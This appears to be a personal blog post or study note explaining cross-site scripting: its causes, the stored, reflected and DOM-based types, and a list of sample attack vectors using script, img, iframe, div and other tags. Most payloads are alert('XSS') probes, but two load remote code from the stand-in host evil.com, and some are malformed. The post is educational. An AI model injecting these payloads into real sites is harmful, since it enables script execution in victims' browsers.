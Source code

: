 ```yaml
---
layout: post
title: "Cross Site Scripting (XSS) Vulnerabilities"
date: 2023-09-09
image: ../../assets/img/Posts/xss2.png
categories: [HackTheBox, Starting_Point]
tags: [docker, trilium, notes, ubuntu, self-hosted]
---
```


# CROSS SITE SCRIPTING (XSS) VULNERABILITY

>- Is A Client-side Code Injection Attack
>- Executes Malicious Scripts In A Web Browser
>- Actual Attack Occurs When Victim Visits D Web Page That Execute Malicious Code

## CAUSES OF XSS
- UNSANITIZED USER INPUT
- XSS ARE POSSIBLE IN VBSCRIPT, ACTIVEX, AND EVEN CSS. BUT MOST COMMON IS JAVASCRIPT AS IT IS THE FUNDAMENTAL TO BROWSING EXPERIENCE.

## TYPES OF XSS
- SELF XSS
- STORED XSS (MOST DAMAGING)
		An attacker uses Stored XSS to inject malicious content (referred to as the payload), most often JavaScript code, into the target application. If there is no input validation, this malicious code is permanently stored (persisted) by the target application, for example within a database. For example, an attacker may enter a malicious script into a user input field such as a blog comment field or in a forum post.
		When a victim opens the affected web page in a browser, the XSS attack payload is served to the victim’s browser as part of the HTML code (just like a legitimate comment would). This means that victims will end up executing the malicious script once the page is viewed in their browser.

- REFLECTED XSS (2ND MOST DAMAGING)
		the attacker’s payload has to be a part of the request that is sent to the web server. It is then reflected back in such a way that the HTTP response includes the payload from the HTTP request. Attackers use malicious links, phishing emails, and other social engineering techniques to lure the victim into making a request to the server. The reflected XSS payload is then executed in the user’s browser.
		Reflected XSS is not a persistent attack, so the attacker needs to deliver the payload to each victim. These attacks are often made using social networks.

- DOM-BASED XSS (STANDARD)
		A DOM-based XSS attack is often a client-side attack and the malicious payload is never sent to the server. This makes it even more difficult to detect for Web Application Firewalls (WAFs) and security engineers who analyze server logs because they will never even see the attack. DOM objects that are most often manipulated include the URL (document.URL), the anchor part of the URL (location.hash), and the Referrer (document.referrer).


## XSS ATTACK VECTORS
- `<script>` TAG
```bash
		 <!-- External script -->
		 <script src=http://evil.com/xss.js></script>
		 <!-- Embedded script -->
		 <script> alert("XSS"); </script>
```

- `jAVASCRIPT EVENTS [onload and onerror]`
```bash
		 <body onload=alert=("XSS")>
```

- `<body> tag`
```bash
		<body background="javascript:alert("XSS")">
```

- `<img> tag`
```bash
		<!-- <img> tag XSS -->
		<img src="javascript:alert("XSS");">
		<img """><script>alert("XSS")</script>"\>
		<!--  tag XSS using lesser-known attributes -->
		<img dynsrc="javascript:alert('XSS')">
		<img lowsrc="javascript:alert('XSS')">
```

- `<table> tag`
```bash
		<!-- <table> tag XSS -->
		<table background="javascript:alert('XSS')">
		<!-- <td> tag XSS -->
		<td background="javascript:alert('XSS')">
```
- `<iframe> tag`
```bash
		<!-- <iframe> tag XSS -->
		<iframe src="http://evil.com/xss.html">
```

- `<input> tag`
```bash
		<!-- <input> tag XSS -->
		<input type="image" src="javascript:alert('XSS');">
```

- `<link> tag`
```bash
		<!-- <link> tag XSS -->
		<link rel="stylesheet" href="javascript:alert('XSS');">
```

- `<div> tag`
```bash
		<!-- <div> tag XSS -->
		<div style="background-image: url(javascript:alert('XSS'))">
		<!-- <div> tag XSS -->
		<div style="width: expression(alert('XSS'));">
```

> ETC....

## Testing for XSS Vulnerabilities
